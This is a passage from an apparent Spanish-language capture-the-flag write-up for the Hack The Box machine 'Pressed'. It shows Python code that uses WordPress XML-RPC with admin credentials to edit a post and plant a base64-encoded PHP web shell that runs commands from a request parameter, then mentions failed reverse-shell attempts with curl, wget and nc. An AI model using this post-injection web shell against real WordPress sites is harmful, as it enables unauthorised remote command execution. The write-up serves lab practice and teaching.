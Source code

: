 ![imagen3](/assets/images/Pressed/pressed3.png)

Vemos que muestra la info de la web por medio de filegetcontents, podemos intentar cambiar el post por un comando para revisar si este se ejecuta. Para esto utilizamos python-wordpress-xmlrpc que podemos descargarlo con pip. Primero intentamos revisar los post disponibles y después verificamos que podamos editarlo. Creamos un código en php que no inteprete cmd para así poder pasarlo a base64 modificar el conitenido original pero con nuestro código.

```python
>> from wordpress_xmlrpc import Client
>>> from wordpress_xmlrpc.methods import posts
>>> client = Client("http://pressed.htb/xmlrpc.php", 'admin', 'uhc-jan-finals-2022')
>>> post2 = post[0]
>>> post2.content = '<!-- wp:paragraph --><p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p><!-- /wp:paragraph --><!-- wp:php-everywhere-block/php {"code":"PD9waHAKCmVjaG8gIjxwcmU+IiAuIHNoZWxsX2V4ZWMoJF9SRVFVRVNUWydjbWQnXSkgLiAiPC9wcmU+IjsKCj8+Cg==","version":"3.0.0"} /-->'
>>> client.call(posts.EditPost(post2.id, post2))
```
Al cambiar el contenido vemos que nos interpreta el código php por lo que procedemos a entablarnos una conexión a la máquina víctima. Cuando intentamos lanzarnos una shell parace no tener una respuesta, esto intentando con curl, wget, nc. Al parecer tiene implementado iptables por lo que no podremos conseguir una shell por este medio. En este paso lo mejor sería crear una webshell para poder navegar mejor por la máquina víctima.

![imagen4](/assets/images/Pressed/pressed4.png)